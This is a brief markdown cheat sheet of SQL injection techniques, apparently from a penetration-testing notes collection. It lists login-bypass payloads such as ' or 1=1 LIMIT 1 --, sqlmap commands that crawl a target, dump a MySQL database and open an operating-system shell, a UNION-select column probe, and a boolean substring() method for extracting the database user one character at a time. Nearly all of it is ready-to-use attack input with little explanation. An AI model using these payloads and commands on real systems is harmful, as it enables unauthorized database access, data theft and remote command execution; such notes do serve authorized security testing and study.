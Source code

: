 # SQL Injection General Notes

## Testing for Bypasses: 

```sql
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

## SQLMAP

### sqlmap crawl  

```sh
sqlmap -u http://172.21.0.0 --crawl=1
```

### sqlmap dump database  

```sh
sqlmap -u http://172.21.0.0 --dbms=mysql --dump
```

### sqlmap shell  

```sh
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell
```

## SQLi

Testing for a row: 

```console
http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
```

## Boolean Based SQLi

`substring()` returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

- ` or substr(user(), 1, 1) = 'a` -> if true, move onto then letter:
- ` or substr(user(), 2, 1) = 'b`

Continue until username is revealed. 